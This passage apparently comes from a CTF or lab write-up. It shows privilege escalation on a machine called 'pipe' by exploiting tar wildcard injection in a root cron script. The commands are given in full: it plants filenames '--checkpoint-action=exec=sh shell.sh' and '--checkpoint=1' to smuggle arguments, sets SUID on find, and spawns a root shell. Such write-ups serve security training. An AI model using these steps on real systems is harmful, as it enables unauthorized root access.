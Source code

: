 The following is the content of `compress.sh`.<br>
We can find out that root runs `tar` command with wildcard.
```shell
www-data@pipe:/tmp$ cat /usr/bin/compress.sh
cat /usr/bin/compress.sh
#!/bin/sh

rm -f /home/rene/backup/backup.tar.gz
cd /home/rene/backup
tar cfz /home/rene/backup/backup.tar.gz *
chown rene:rene /home/rene/backup/backup.tar.gz
rm -f /home/rene/backup/*.BAK
```

In `/home/rene/backup`, we have some backup files already.
```shell
www-data@pipe:/home/rene/backup$ ls -l 
ls -l
total 152
-rw-r--r-- 1 rene rene 120617 May  2 00:15 backup.tar.gz
-rw-r--r-- 1 rene rene  20865 May  2 00:16 sys-25110.BAK
-rw-r--r-- 1 rene rene   3138 May  2 00:17 sys-25916.BAK
-rw-r--r-- 1 rene rene   3906 May  2 00:18 sys-3225.BAK
```

By creating a file named `--checkpoint-action=command` and `--checkpoint=number`, we can inject the argument of `tar` command.
```shell
www-data@pipe:/home/rene/backup$ echo "chmod u+s /usr/bin/find" > shell.sh
echo "chmod u+s /usr/bin/find" > shell.sh
www-data@pipe:/home/rene/backup$ echo "" > "--checkpoint-action=exec=sh shell.sh"
<ckup$ echo "" > "--checkpoint-action=exec=sh shell.sh"                      
www-data@pipe:/home/rene/backup$ echo "" > --checkpoint=1
echo "" > --checkpoint=1
```

`compress.sh` is ran in every 5 minutes.<br>
We can confirm that we added SUID to `/usr/bin/find`.
```shell
www-data@pipe:/home/rene/backup$ ls -l /usr/bin/find
ls -l /usr/bin/find
-rwsr-xr-x 1 root root 233984 Nov  9  2014 /usr/bin/find
```

Since `find` has `-exec` option, we can execute `/bin/sh` as root user.
```shell
www-data@pipe:/home/rene/backup$ find backup.tar.gz -exec "/bin/sh" \;
find backup.tar.gz -exec "/bin/sh" \;
# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
# whoami
whoami
root
```
